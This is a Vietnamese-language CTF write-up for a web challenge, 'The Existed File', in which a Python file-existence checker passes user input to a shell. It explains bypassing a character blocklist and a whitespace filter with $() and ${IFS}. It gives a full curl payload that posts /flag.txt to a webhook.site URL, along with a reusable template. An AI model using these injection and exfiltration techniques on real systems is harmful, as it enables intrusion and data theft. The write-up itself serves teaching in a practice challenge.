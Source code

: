 ```yaml
---
title: Write-Up The Existed File
date: 2023-10-01 12:44:01 +0700
categories: [CTF, Cookie Hân Hoan, Write-Up]
tags: [web, write-up, ctf]     # TAG names should always be lowercase
---
```

# The Existed File
The system will check whether the file exists or not. We have also implemented blocklist keywords to detect hackers.
## **Tổng quan**

- Để giải được challenge này, ta cần vận dụng kiến thức về Command Injection cũng như cách dùng các lệnh như curl, wget và biến ${IFS}
- công cụ: Burpsuite, Webhook

## Phân tích bài

- Truy cập vào web ta thấy web chỉ có chức năng kiểm tra xem liệu đường dẫn thư mục có tồn tại hay không, nếu có trả về như ảnh.

<img src="/assets/writeup/cookie/The Existed File/0.png">
- Kiểm tra mã nguồn ta thấy được trang web đã filter 1 số câu lệnh

<img src="/assets/writeup/cookie/The Existed File/1.png">

- Ta tiếp tục nhận thấy ở trong đoạn code, biến file_path đang là 1 untrusted data không được kiểm soát và có vẻ như nó sẽ thực thi bất kì câu lệnh nào ta nhập vào, tuy nhiên ở đây bài này đã filter đi khoảng trắng.

<img src="/assets/writeup/cookie/The Existed File/2.png">

Dòng mã **`file_path.translate({ord(c): None for c in string.whitespace})`** loại bỏ tất cả khoảng trắng trong biến `**file_path**` ta nhập vào

<img src="/assets/writeup/cookie/The Existed File/3.png">

Dòng mã **`subprocess.check_output(command, shell=True)`** đang thực hiện lệnh hệ thống trực tiếp từ dữ liệu người dùng. Điều này có thể tạo lỗ hổng command injection

- Lúc này ta bắt đầu khai thác, trang web đã chặn những chức năng nối dài câu lệnh như `; & |` tuy nhiên như vậy là chưa đủ.

Có một số ký tự và lệnh khác trong Linux có thể được sử dụng để nối chuỗi các lệnh, bao gồm:

- `||`: Toán tử OR trong Linux có thể nối 2 lệnh với nhau, lệnh thứ 2 sẽ chạy nếu lệnh thứ 1 thất bại.
- `&&`: Toán tử AND trong Linux có thể nối 2 lệnh, lệnh thứ 2 chỉ chạy khi lệnh thứ 1 thành công.
- `$()`: Dùng để thực thi lệnh bên trong và thay thế bằng kết quả.
- `\`: Dấu gạch chéo ngược dùng để chia nhỏ lệnh dài thành nhiều dòng.
- `$IFS`: Biến môi trường Internal Field Separator có thể được sử dụng để ngăn cách các lệnh.
- `exec`: Lệnh exec có thể được dùng để thực thi lệnh tiếp theo mà không cần tạo tiến trình con mới.

Ở bài này mình sẽ sử dụng biến $() để nối dài câu lệnh, tuy nhiên khi mình test với payload sau thì không trả ra được output gì.

<img src="/assets/writeup/cookie/The Existed File/4.png">

- Có vẻ như câu lệnh vẫn được thực thi, tuy nhiên ở bài này sẽ không trả ra output khác, vì vậy mình thử sử dụng curl để kiểm tra xem, ở đây mình dùng `${IFS}` để bypass filter khoảng trắng

<img src="/assets/writeup/cookie/The Existed File/5.png">

- như bạn thấy, server vẫn trả về kết quả là file không tồn tại, tuy nhiên sang webhook thì ta có thể thấy được rằng ta có thể gửi tín hiệu ra ngoài ^^

<img src="/assets/writeup/cookie/The Existed File/6.png">

- sử dụng payload sau để lấy flag

payload: `$(curl${IFS}-X${IFS}POST${IFS}--data-binary${IFS}"@/flag.txt"${IFS}[https://webhook.site/a7b67a78-da14-4fa4-8c4a-fe87957f4be1](https://webhook.site/a7b67a78-da14-4fa4-8c4a-fe87957f4be1))`

mẫu: `curl -X POST --data-binary "@/path/to/flag.txt" webhook của bạn`

- ở đây bạn thay thế khoảng trắng bằng `${IFS}` và đường dẫn bằng `/flag.txt`

<img src="/assets/writeup/cookie/The Existed File/7.png">
